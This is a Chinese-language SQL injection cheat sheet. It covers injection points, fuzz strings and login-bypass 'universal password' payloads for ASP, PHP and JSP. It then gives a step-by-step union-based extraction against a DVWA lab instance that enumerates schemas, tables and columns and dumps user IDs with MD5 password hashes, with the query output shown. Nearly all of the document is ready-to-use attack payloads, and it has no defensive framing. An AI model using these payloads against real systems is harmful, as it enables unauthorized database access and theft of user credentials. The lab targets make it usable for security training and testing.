 注入方法
=====================================

常见的注入点
--------------------------------------
- GET/POST/PUT/DELETE参数(查询字符串，表单)
- X-Forwarded-For
- 文件名
- cookier

Fuzz注入点
--------------------------------------
- ``'`` / ``"``
- ``1/1``
- ``1/0``
- ``and 1=1``
- ``" and "1"="1``
- ``and 1=2``
- ``or 1=1``
- ``or 1=``
- ``' and '1'='1``
- ``+`` ``-`` ``^`` ``*`` ``%`` ``/`` 
- ``<<`` ``>>`` ``||`` ``|`` ``&`` ``&&``
- ``~``
- ``!``
- ``@``
- 反引号执行

- asp aspx万能密码

	``" or "a"="a``
	``') or ('a'='a``
	``or 1=1--``
	``' or 1=1--``
	``a' or '1=1--``
	``" or 1=1--``
	``' or 'a'='a``
	``" or "="a'='a``
	``' or ''='``
	``' or '='or'``
	``1 or '1'='1'=1``
	``1 or '1'='1' or 1=1``
	``' OR 1=1%00``
	``" or 1=1%00``
	``' xor``
	``用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin）``
	``密码 1``
	``admin' or 'a'='a 密码随便``

- PHP万能密码

	``'or 1=1/*``
	``User: something``
	``Pass: ' or '1'='1``

- jsp 万能密码

	``1' or '1'='1``
	``admin' or 1=1/*``

测试列数
--------------------------------------
``http://www.foo.com/index.asp?id=12+union+select+null,null--`` ，不断增加 ``null`` 至不返回

堆叠注入
--------------------------------------
堆叠注入与受限于select语句的联合查询法相反，堆叠注入可用于执行任意SQL语句。
堆叠注入的局限性：堆叠注入并不是任何换环境下都可以执行的，可能受到API或者数据库引擎不支持的限制（如Oracle数据库），也有可能权限不足。web系统中，因为代码通常只返回一个查询结果，因此堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。因此，在读取数据时，一般建议使用union注入.同时在使用堆叠注入之前，需要知道数据库的一些相关信息，比如：表名，列名等信息。

``http://192.168.1.100/sqllabs/Less-38/?id=1';create database aaron --+``

注释符
--------------------------------------
- MYSQL：``#(单行注释)`` , ``--+(单行注释)`` , ``/*...*/(多行注释)``
- ORACLE: ``--(单行注释)`` , ``/*...*/(多行注释)``

判断过滤规则
--------------------------------------
- 是否有trunc
- 是否过滤某个字符
- 是否过滤关键字
- slash和编码

获取信息
--------------------------------------
	
- 判断数据库表是否存在
	``and exsits (select * from admin)`` MySQL
	如：http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' and exists+(select * from guestbook)--+&Submit=Submit#
- 确定字段数
    order by(MySQL)
	例如 ``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' order by 6--+&Submit=Submit#`` ，不断增加数字，直到返回错误
    select into(MySQL)
	例如 ``http://www.foo.com/index.asp?id=12+union+select+null,null--`` ，不断增加 ``null`` 至不返回
- 匹配数据类型
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select 'TEST',null--+&Submit=Submit#``
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select null,'TEST'--+&Submit=Submit#``
	注：只要程序不出现错误，就知道存储TEST值的列可以保存一个字符串。
	
测试权限
--------------------------------------
- 文件操作
    - 读敏感文件
    - 写shell
- 带外通道
    - 网络请求
	
MYSQL实战
--------------------------------------
- 查询数据库
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select null,schema_name from information_schema.schemata--+&Submit=Submit#``
	::
	
		ID: 1' union select null,schema_name from information_schema.schemata-- 
		First name: admin
		Surname: admin
		
		ID: 1' union select null,schema_name from information_schema.schemata-- 
		First name: 
		Surname: information_schema
		
		ID: 1' union select null,schema_name from information_schema.schemata-- 
		First name: 
		Surname: dvwa``
		
- 查询表名
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select table_schema,table_name from information_schema.tables where table_schema!='information_schema'--+&Submit=Submit#``
	::
	
		ID: 1' union select table_schema,table_name from information_schema.tables where table_schema!='information_schema'-- 
		First name: admin
		Surname: admin

		ID: 1' union select table_schema,table_name from information_schema.tables where table_schema!='information_schema'-- 
		First name: dvwa
		Surname: guestbook

		ID: 1' union select table_schema,table_name from information_schema.tables where table_schema!='information_schema'-- 
		First name: dvwa
		Surname: users
		
- 查询列名
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select table_name,column_name from information_schema.columns where table_name='users'--+&Submit=Submit#``
	::
	
		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: admin
		Surname: admin

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: user_id

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: first_name

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: last_name

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: user

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: password

		ID: 1' union select table_name,column_name from information_schema.columns where table_name='users'-- 
		First name: users
		Surname: avatar
		
- 查询数据
	``http://192.168.42.129/dvwa/vulnerabilities/sqli/?id=1' union select user_id,password from users--+&Submit=Submit#``
	::
	
		ID: 1' union select user_id,password from users-- 
		First name: admin
		Surname: admin

		ID: 1' union select user_id,password from users-- 
		First name: 1
		Surname: 21232f297a57a5a743894a0e4a801fc3

		ID: 1' union select user_id,password from users-- 
		First name: 2
		Surname: e99a18c428cb38d5f260853678922e03

		ID: 1' union select user_id,password from users-- 
		First name: 3
		Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

		ID: 1' union select user_id,password from users-- 
		First name: 4
		Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

		ID: 1' union select user_id,password from users-- 
		First name: 5
		Surname: 5f4dcc3b5aa765d61d8327deb882cf99

		ID: 1' union select user_id,password from users-- 
		First name: 6
		Surname: ee11cbb19052e40b07aac0ca060c23ee
	